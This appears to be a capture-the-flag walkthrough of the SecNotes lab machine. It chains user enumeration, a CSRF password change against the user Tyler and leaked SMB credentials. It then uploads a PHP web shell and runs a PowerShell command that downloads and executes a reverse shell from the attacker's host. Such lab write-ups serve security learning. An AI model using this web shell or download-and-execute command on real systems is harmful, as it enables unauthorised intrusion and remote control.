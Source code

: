 # 10 - HTTP


![](vx_images/2547413159090.png)

A simple login page, probably not a CMS. Moreover it has Sign up option. Before creating an account, we should try somedefault default credentials like:


* root:root
* admin:admin
* administrator:password


# User Enumeration

![](vx_images/5540095716613.png)

"No account found with that username" this error is giving us more information than it should, it is open to bruteforce attacks since we have a way to tell if a user exists.


# Home page after registration
![](vx_images/3786310505705.png)

**New Note** simply creates notes on the home page nothing too interesting there. **Contact Us** page is interesting because we can interact with the user Tyler.  We will come to **Change Password** in a moment.

# Contact Us

![](vx_images/3771060032980.png)

The first thing that we should try, before testing cross site scripting, is whether the user follows links. I am dropping a simple link, if we get a hit that would be great.


# Tyler follows links

![](vx_images/1727009847324.png)

Tyler is our target, in order to pwn their account we need to steal their cookies or password. One way to steal their password is through cross site scripting however it doesn't work on this user(probably not using a browser), I suppose that is a hint that there are easier ways to get the user's password.

# change_pass.php
```bash
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://10.10.10.97
DNT: 1
Connection: close
Referer: http://10.10.10.97/change_pass.php
Cookie: PHPSESSID=kpq1aub2gbcpnkip7jpt4tp72d
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

password=refikpass&confirm_password=refikpass&submit=submit
```

Password reset request doesn't contain CSRF token or old password. We can generate a get request with this to send to Tyler.



# Password change link for Tyler
![](vx_images/1631921717510.png)


Tyler's password will become refikpass if they accept it.


# Tyler

![](vx_images/4812753811650.png)

Finally, we successfully logged in as tyler.


# New site note

![](vx_images/1962650433190.png)

The last note contains credentials.

* tyler:92g!mA8BGjOirkL%OG*&

\\\\secnotes.htb\\new-site
tyler / 92g!mA8BGjOirkL%OG*&

# Shares
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes]
└──╼ $ cme smb 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --shares
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*& 
SMB         10.10.10.97     445    SECNOTES         [+] Enumerated shares
SMB         10.10.10.97     445    SECNOTES         Share           Permissions     Remark
SMB         10.10.10.97     445    SECNOTES         -----           -----------     ------
SMB         10.10.10.97     445    SECNOTES         ADMIN$                          Remote Admin
SMB         10.10.10.97     445    SECNOTES         C$                              Default share
SMB         10.10.10.97     445    SECNOTES         IPC$                            Remote IPC
SMB         10.10.10.97     445    SECNOTES         new-site        READ,WRITE      
```


new-site is probably referring to the webserver, if that is true, with the write access to the share, we can place a reverse shell.

# The web server running on port 8808
![](vx_images/4209204569026.png)

This doesn't look like the server we have been dealing with. It could be the server on port 8808 because iisstart.htm is the default page for IIS. Code execution will go from there. 

# exploit.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes]
└──╼ $ cat exploit.php 
<?php system($_REQUEST['cmd']);?>
```

exploit.php is a simple php script. It executes the value of the cmd paramater. The next step is uploading the script.


# Upload exploit.php
```bash
smb: \> put exploit.php
putting file exploit.php as \exploit.php (0.2 kb/s) (average 0.2 kb/s)
```


# Remote code execution
![](vx_images/4416962469566.png)

Now we can safely prepare our reverse shell.

# Reverse powershell script
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes/www]
└──╼ $ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 rev.ps1
┌─[user@parrot]─[10.10.14.14]─[~/htb/secnotes/www]
└──╼ $ tail -1 rev.ps1 
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 4444
```


# Download and execute the reverse shell
```bash
POST /exploit.php HTTP/1.1
Host: 10.10.10.97:8808
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=kpq1aub2gbcpnkip7jpt4tp72d
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

cmd=powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/rev.ps1')
```

![](vx_images/748957671968.png)
